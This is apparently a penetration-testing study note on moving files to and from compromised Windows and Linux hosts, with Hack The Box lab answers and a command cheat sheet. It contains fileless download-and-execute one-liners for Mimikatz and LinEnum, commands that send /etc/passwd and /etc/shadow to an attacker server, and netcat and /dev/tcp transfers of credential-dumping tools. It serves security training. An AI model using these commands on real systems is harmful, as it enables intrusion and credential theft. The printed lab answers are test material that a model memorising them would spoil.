








---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# File Transfers

## Prevent corruption

To check if the file transfer is successful, I check the MD5 hash on my local host and remote host

```bash
cd ~
ssh-keygen
md5sum .ssh/id_rsa      # 93d25fd3157c794e3eb01174451b019b
```

<figure><figcaption></figcaption></figure>

Thus the hash is `93d25fd3157c794e3eb01174451b019b` for the `id_rsa` file. I download it on remote host.

```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1C...tLS0K"))
```

And I check if the file has not been corrupted during the transfer.

```powershell
Get-FileHash "C:\users\Public\id_rsa" -Algorithm MD5
```

<figure><figcaption></figcaption></figure>

It sounds good... The hashes match each other !

<figure><figcaption></figcaption></figure>

## Powershell

<table><thead><tr><th width="243">Command</th><th>Description</th></tr></thead><tbody><tr><td><code>OpenRead</code></td><td>Returns the data from a resource as a Stream.</td></tr><tr><td><code>OpenReadAsync</code></td><td>Returns the data from a resource without blocking the calling thread.</td></tr><tr><td><code>DownloadData</code></td><td>Downloads data from a resource and returns a Byte array.</td></tr><tr><td><code>DownloadDataAsync</code></td><td>Downloads data from a resource and returns a Byte array without blocking the calling thread.</td></tr><tr><td><code>DownloadFile</code></td><td>Downloads data from a resource to a local file.</td></tr><tr><td><code>DownloadFileAsync</code></td><td>Downloads data from a resource to a local file without blocking the calling thread.</td></tr><tr><td><code>DownloadString</code></td><td>Downloads a String from a resource and returns a String.</td></tr><tr><td><code>DownloadStringAsync</code></td><td>Downloads a String from a resource without blocking the calling thread.</td></tr></tbody></table>

* Quick examples to download file and store into disk and to run directly in memory with `IEX` called "**Fileless Method**"

```powershell
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/.../PowerView.ps1','PowerView.ps1')
(New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/.../PowerView.ps1', 'PowerViewAsync.ps1')
​
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/.../Invoke-Mimikatz.ps1')
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/.../Invoke-Mimikatz.ps1') | IEX    # same command
```

* There is also `Invoke-WebRequest` (aliases are `iwr`, `curl` and `wget`).

```powershell
Invoke-WebRequest 'https://raw.githubusercontent.com/.../PowerView.ps1' -OutFile 'PowerView.ps1'
```

* Internet Explorer first-launch configuration : use `-UseBasicParsing`.

```powershell
Invoke-WebRequest https://10.10.14.9/PowerView.ps1 -UseBasicParsing | IEX
```

* SSL/TLS for untrusted certificate : execute the following command.

```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## SMB

It runs on `TCP/445` for Windows services

I can create a SMB server with this Python tool : [https://github.com/fortra/impacket/blob/master/examples/smbserver.py](https://github.com/fortra/impacket/blob/master/examples/smbserver.py)

* No authentication : example to create a server with no authentication and the Windows client can download the files with no credentials.

```bash
# server
curl -o 'smbserver.py' 'https://raw.githubusercontent.com/fortra/impacket/master/examples/smbserver.py'
sudo python smbserver.py share -smb2support /tmp/smbshare
​
# client
copy \\10.10.14.9\share\nc.exe
```

* With authentication : I can add credentials for the SMB server and log with Windows client where `:n` is the is mounting point letter.

```bash
# server
python smbserver.py share -smb2support /tmp/smbshare -user test

# client
net use n: \\10.10.14.9\share /user:test test
copy n:\nc.exe
```

## FTP

It runs on `TCP/21` and `TCP/20`. I can use `PowerShell Net.WebClient` to download from an FTP server.

To run an FTP server with linux, I can download `pyftplib`.

```bash
sudo pip3 install pyftplib
sudo python3 -m pyftplib --port 21
```

Now, I can download file on Windows client with Powershell.

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://10.10.14.9/file.txt', 'ftp-file.txt')
```

## Base64

Encode with Powershell

```powershell
[Convert]::ToBase64String((Get-Content -path 'c:\windows\system32\drivers\etc\hosts' -Encoding byte))
Get-FileHash 'c:\windows\system32\drivers\etc\hosts' -Algorithm MD5
```

<figure><figcaption></figcaption></figure>

Decode with Linux

```bash
echo 'IyBDb3B...bG9jYWxob3N0DQo=' | base64 -d > hosts
md5sum hosts
```

<figure><figcaption></figcaption></figure>

Again, the hashes are matching `93453E17ECF7EF7028864D144B1347A5` !

## Web Server Upload

I can use `uploadserver` which is an extended module of the Python `http.server` module.

```bash
pip3 install uploadserver
python3 -m uploadserver
```

Now, I can upload my file on [http://127.0.0.1:8000/upload](http://127.0.0.1:8000/upload)

<figure><figcaption></figcaption></figure>

Once I submit the query, I see the file has been received on the web server

<figure><figcaption></figcaption></figure>

I can upload the file with Powershell

```powershell
Invoke-FileUpload -Uri http://10.10.14.9:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

The second upload method (upload a string) needs Netcat on remote Linux host

```bash
nc -lnvp 8000
```

Now, I can insert a base64 string in the body request and send it to the remote host

```powershell
$b64 = [Ssytem.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://10.10.14.9/ -Method POST -Body $b64
```

<figure><figcaption></figcaption></figure>

When I receive the base64 string on the web server, I can convert it.

```bash
echo 'IyBDb3B5cmlnaHQg...bnRy' | base64 -d -w 0 > hosts
```

## WebDAV

To configure the WebDAV server, I have to install 2 Python modules.

```bash
sudo pip install wsgidav cheroot
```

Then, I run `wsgidav` in the target directory.

```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

... _(Need more content)_ ...

## FTP Uploads

I can create a FTP server on my Linux host. The flag `--write` allows clients to upload files.

```bash
sudo python3 -m pyftpddlib --port 21 --write
```

Then, I can upload my file from Windows with Powershell and I have to set the absolute path for the source file.

```powershell
(New-Object Net.WebClient).UploadFile('ftp://10.10.14.9/ftp-hosts', 'c:\windows\system32\drivers\etc\hosts')
```

## Linux

### Base64

The first method is copy/paste with a base64 string. The flag `-w 0` creates only one line and the command `echo` starts a new line right after the output.

```bash
ssh-keygen
cd $HOME/.ssh
md5sum id_rsa					# aa3b4f1e385fcfce1cdbc143e57641c9
cat id_rsa|base64 -w 0;echo		# LS0t...S0VZLS0tLS0K
```

Once I encode the `id_rsa` file content, I can paste it into the other machine and decode the string.

```bash
echo -n 'LS0t...S0VZLS0tLS0K'|base64 -d > id_rsa
md5sum id_rsa										# aa3b4f1e385fcfce1cdbc143e57641c9
```

The hash is the same, the transfer is successful.

### Web Download

I can use `wget` and `curl` to downlaod file from web. For `wget`, the flag `-O` set the output file name. For `curl`, this flag `-o` set also the output file name.

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Fileless Download

```bash
# bash example
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
# python example
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### Built-in Tools

I can connect my client to a web server like this.

```bash
exec 3<>/dev/tcp/10.10.10.32/80		    # connect to the target webserver
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3   # http get target
cat <&3											# print the response
```

### SCP

SCP means **Secure CoPy**.\
I create an SSH server.

```bash
sudo systemctl enable ssh
sudo systemctl start ssh
netstat -lnpt				# check listening ports
```

Since my client, I download the file using SCP ...

```bash
scp plaintext@192.168.49.128:/root/myroot.txt .
```

... or I upload it !

```bash
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext
```

### Web Server

I install the Python package.

```bash
python3 -m pip install --user uploadserver
```

I create a self-signed certificate to use HTTPS and I create a new host directory. Then, I run the server.

```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
mkdir https && cd https
python3 -m uploadserver 443 --server-certificate /root/server.pem
```

To upload file with bash from client to server. The `--insecure` means that I trust the self-signed certificate.

```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

There are other web server with other languages.

```bash
python3 -m http.server		# python3
python2.7 -m SimpleHTTPServer	# python2.7
php -S 0.0.0.0:8000		# php
ruby -run -ehttpd . -p8000	# ruby
```

To download a file from one of these server into the client.

```bash
wget 192.168.49.128:8000/filetotransfer.txt
```

## Programming Language

```bash
# python2 download
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw...er/LinEnum.sh", "LinEnum.sh")'
# python3 download
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw...er/LinEnum.sh", "LinEnum.sh")'
# php
php -r '$file = file_get_contents("https://raw...er/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
# ruby
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw...er/LinEnum.sh")))'
# perl
perl -e 'use LWP::Simple; getstore("https://raw...er/LinEnum.sh", "LinEnum.sh");'
```

Fileless download with php.

```bash
php -r '$lines = @file("https://raw...er/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

### JavaScript

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

I use this command to execute the file.

```bash
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

### VBScript

```visual-basic
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

I use this command to execute the file.

```powershell
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

### Python3

I start a web server.

```bash
python3 -m uploadserver
```

I execute a script on the remote machine.

```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

I beautify the code.

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

## Netcat

On the remote machine, I can start listening and waiting for data from a client.

```bash
nc -lp 8000 > SharpKatz.exe		     # nc
ncat -lp 8000 --recv-only > SharpKatz.exe    # ncat
```

I send data from my host to remote.

```bash
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
nc -q 0 192.168.49.129 8000 < SharpKatz.exe		# nc
ncat --send-only 192.168.49.129 8000 < SharpKatz.exe	# ncat
```

On the other hand, I can start the server and once there is a new connection, the server send the data to the client.

```bash
sudo nc -lp 443 -q 0 < SharpKatz.exe		# nc
sudo ncat -lp 443 --send-only < SharpKatz.exe	# ncat
```

On the remote machine, once I start Netcat, I receive the data from remote.

```bash
nc 192.168.49.128 443 > SharpKatz.exe			# nc
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe	# ncat
```

I can use `/dev/TCP/` if I don't have Netcat tool on the remote machine.

```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## PowerShell Remoting

It create by default `TCP/5985` for HTTP and `TCP/5986` for HTTPS. I can check the connection to a remote computer.

```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

then start a new session to remote.

```powershell
$session = New-PSSesion -ComputerName DATABASE01
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $session
```

## RDP

Remote Desktop Protocol. On Linux, I can use `rdesktop` or `xfreerdp`.

```bash
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

On Windows, I can use `mstsc.exe`.

## Protected file transfers

With PowerShell, I can copy-paste this script [https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions%5CInvoke-AESEncryption.ps1](https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions/Invoke-AESEncryption.ps1) then add it with the following command.

```powershell
import-module '.\Invoke-AESEncryption.ps1'
Invoke-AESEncryption -mode encrypt -key '1234' -text 'text to encrypt'
Invoke-AESEncryption -mode decrypt -key '1234' -test 'text to decrypt'
```

With Linux, I can use `openssl` tool.

```bash
# encrypt
openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passd -out passwd.enc
# decrypt
openssl enc -d -aes256 -iter 100000 -pdbdf2 -in passwd.enc -out passwd
```

## HTTP(S)

I can use `nginx` or `apache2` service to upload files.

```bash
sudo mkdir -p /var/www/uploads/secret-upload-directory
sudo chown www-data:www-data /var/www/uploads/secret-upload-directory
touch /etc/nginx/sites-available/upload.conf
```

I update the file `upload.conf`.

```apacheconf
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

Then I enable this configuration.

```bash
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
sudo systemctl restart nginx.service
```

I can check here is I get issues.

```bash
tail -2 '/var/log/nginx/error.log'
ss -lnpt | grep '80'
ps -ef | grep '2811'

sudo rm /etc/nginx/sites-enabled/default    # solve issue
sudo systemctl restart nginx.service        # restart the service
```

I upload file with `curl` tool

```bash
curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

And I check if the file has been uploaded.

```bash
tail -1 /var/www/uploads/SecretUploadDirectory/users.txt 
```

## Living off the land

* [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
* [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

With these repositories, I can

* Download
* Upload
* Command Execution
* File Read
* File Write
* Bypasses

***

## Questions

1. Download the file flag.txt from the web root using wget from the Pwnbox. Submit the contents of the file as your answer.

```
wget http://10.129.187.31/flag.txt
cat flag.txt							# b1a4ca918282fcd96004565521944a3b
```

2. RDP to the target. Upload the attached file named upload\_win.zip to the target using the method of your choice. Once uploaded, RDP to the box, unzip the archive, and run "hasher upload\_win.txt" from the command line. Submit the generated hash as your answer.

```
curl -o 'upload_win.zip' 'https://academy.hackthebox.com/storage/modules/24/upload_win.zip'
curl -o 'smbserver.py' 'https://raw.githubusercontent.com/fortra/impacket/master/examples/smbserver.py'
sudo python smbserver.py share -smb2support /tmp/smbshare
```

```
(New-Object Net.WebClient).DownloadFile('https://academy.hackthebox.com/storage/modules/24/upload_win.zip', 'c:\users\public\downloads\upload-win.zip')
Invoke-FileUpload -Uri http://10.10.14.9:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

3. Download the file flag.txt from the web root using Python from the Pwnbox. Submit the contents of the file as your answer.

```
wget 10.129.93.122/flag.txt		# 5d21cf3da9c0ccb94f709e2559f3ea50
```

4. Upload the attached file named upload\_nix.zip to the target using the method of your choice. Once uploaded, SSH to the box, extract the file, and run "hasher extracted file" from the command line. Submit the generated hash as your answer.

```
# I go to remote machine through SSH and I create a php web server.  
# Then, I transfer file from pwnbox to remote and I execute the next command on remote.

ssh htb-student@10.129.93.122

wget https://academy.hackthebox.com/storage/modules/24/upload_nix.zip
unzip upload_nix.zip
php -S 0.0.0.0:8000

wget http://10.10.15.0:8000/upload_nix.txt
hasher upload_nix.txt							# 159cfe5c65054bbadb2761cfa359c8b0
```

***

## Cheat Sheet

| **Command**                                                                                                        | **Description**                             |
| ------------------------------------------------------------------------------------------------------------------ | ------------------------------------------- |
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`                                            | Download a file with PowerShell             |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`                              | Execute a file in memory using PowerShell   |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`                                            | Upload a file with PowerShell               |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`                                                   | Download a file using Bitsadmin             |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`                                                      | Download a file using Certutil              |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`                   | Download a file using Wget                  |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`                   | Download a file using cURL                  |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`          | Download a file using PHP                   |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`                                                 | Upload a file using SCP                     |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`                                                           | Download a file using SCP                   |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
